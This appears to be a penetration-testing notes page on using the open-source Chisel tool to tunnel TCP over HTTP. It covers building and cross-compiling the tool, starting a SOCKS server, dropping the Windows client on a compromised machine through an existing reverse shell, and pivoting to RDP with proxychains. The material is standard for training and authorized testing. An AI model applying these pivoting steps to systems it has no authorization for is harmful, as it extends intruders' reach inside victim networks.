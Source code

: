 # ⭕ Chisel TCP tunnel over HTTP

{% embed url="https://github.com/jpillora/chisel" %}

Chisel is an open-source tunneling software written in Golang. <mark style="color:green;">**It works by setting up a TCP tunnel and performing data transfers over HTTP, while securing it with SSH.**</mark> Chisel contains both client and server components and creates a SOCKS-compliant proxy.

{% hint style="danger" %}
In this technique, the compiled Chisel binary will be dropped on the compromised system,

so this is not an OPSEC-safe technique.
{% endhint %}

## <mark style="color:red;">Installation</mark>

```
sudo apt install golang -y
git clone https://github.com/jpillora/chisel.git
cd chisel/
go build
```

We can cross-compile chisel for other operating systems and architectures with the Golang compiler

```
env GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w"
```

Now we can use chisel to set up the reverse tunnel.

start chisel in server mode, specify the listen port with -p and --socks5 to specify the SOCKS proxy mode.

```
./chisel server -p 8080 --socks5
```

configure a SOCKS proxy server with the Kali SSH server.

enable password authentication by uncommenting the appropriate line in the `sshd_config` file. After the service is started onnect to it with ssh and supply -N to ensure commands are not executed but merely forwarded and -D to configure a SOCKS proxy.specify the IP and port to configure the SOCKS proxy.

```
sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' /etc/ssh/sshd_config
sudo systemctl start ssh.service
ssh -N -D 0.0.0.0:1080 localhost
```

transfer the compiled Windows version of chisel to the Windows machine through the existing reverse shell and run it:

```
chisel.exe client 192.168.119.120:8080 socks
```

use the tunnel:

```
sudo proxychains rdesktop 192.168.120.10
```
